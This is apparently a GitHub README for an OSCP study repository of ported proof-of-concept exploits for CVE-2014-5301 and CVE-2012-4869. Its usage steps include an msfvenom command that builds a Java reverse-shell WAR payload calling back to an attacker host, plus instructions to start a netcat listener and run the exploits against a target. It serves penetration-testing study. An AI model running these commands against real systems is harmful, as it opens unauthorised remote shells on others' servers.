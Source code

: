 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.
Currently under development.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: https://www.exploit-db.com/exploits/35845

### Usage
```
35845.py file.war host port
```

1. First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```

2. Start netcat listener 

3. Run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!



## 18650.py

CVE: 2012-4869

URL: [http://seclists.org/fulldisclosure/2012/Mar/234](http://seclists.org/fulldisclosure/2012/Mar/234)

Original code: https://www.exploit-db.com/exploits/18650

### Usage
Edit the file and change rhost, lhost, lport

1. Start netcat listener on the port you configured

3. Run the script
```
python 18650.py
```


